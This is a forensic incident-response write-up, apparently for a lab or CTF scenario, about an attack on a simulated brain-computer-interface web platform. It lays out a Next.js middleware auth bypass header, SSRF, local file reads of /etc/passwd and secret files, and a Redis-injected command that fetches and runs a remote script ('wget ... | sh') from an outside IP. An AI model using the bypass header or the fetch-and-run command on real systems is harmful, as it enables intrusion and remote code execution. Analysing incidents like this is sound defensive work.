


# NeuroSync-D - DFIR Write-up

 

## Overview

This environment simulates a distributed BCI (Brain-Computer Interface) platform consisting of:

- Web interface (Next.js)
- Backend analytics service (Node.js)
- Redis messaging layer
- Lightweight “device” client

The device logs are not representative of real medical telemetry. Instead, they resemble simplified application-layer logs typical of a prototype or research environment running on a Linux-based embedded system.

## Initial Information

The application is running:

- **Next.js 15.1.0** on `http://172.17.0.2:3000`

This version is vulnerable to:

### CVE-2025-29927
- Critical auth bypass in middleware-based apps
- Caused by the manipulation of internal request headers
- Allows attackers to **skip authentication entirely**
- No credentials required

**Forensic indicators:**
- Direct access to protected endpoints without login
- Suspicious middleware-related headers
- Repeated `401 -> 200` transitions

## Attack Timeline

### 1. Recon / Enumeration (11:37:44)

- Attacker probes common Next.js static files
- Successfully retrieves `main-app.js`

This likely exposed:
- API endpoints
- Application structure
- Potential version info

### 2. Endpoint Discovery (11:38:05)

- Repeated requests to `/api/bci/analytics`
- Initial responses:
  - `401 Unauthorized` (x5)
- Followed by:
  - `200 OK` and `500` responses

Strong indicator of **auth bypass via CVE-2025-29927**

### 3. Exploitation (Middleware Bypass)

- Requests include:
  - `["x-middleware-subrequest","middleware:middleware:middleware:middleware"]` header
- Observed in interface logs

This header manipulation allowed the attacker to:
- Bypass authentication
- Access protected API routes directly

### 4. SSRF + Internal Discovery (11:38:52)

- Vulnerability chained with **SSRF**
- Internal API discovered on port `4000`

Attacker begins probing internal endpoints.

### 5. Endpoint Enumeration + LFI (11:39:01)

- `/logs` endpoint identified
- Used to read sensitive files via **Local File Inclusion**

Files accessed:
- `/etc/passwd`
- `/proc/self/environ`
- `logfile.txt`
- `app.log`
- `index.js`
- `secret.key`

Significant information disclosure

### 6. Redis Injection -> RCE (11:39:26)

- Attacker crafts a malicious command using the previously gathered data
- Injects into Redis queue

redis.log Command: `OS_EXEC|d2dldCBodHRwOi8vMTg1LjIwMi4yLjE0Ny9oNFBsbjQvcnVuLnNoIC1PLSB8IHNo|f1f0c1feadb5abc79e700cac7ac63cccf91e818ecf693ad7073e3a448fa13bbb`

Decoded payload visible in bci-device.log: `wget http://185.202.2.147/h4Pln4/run.sh -O- | sh`
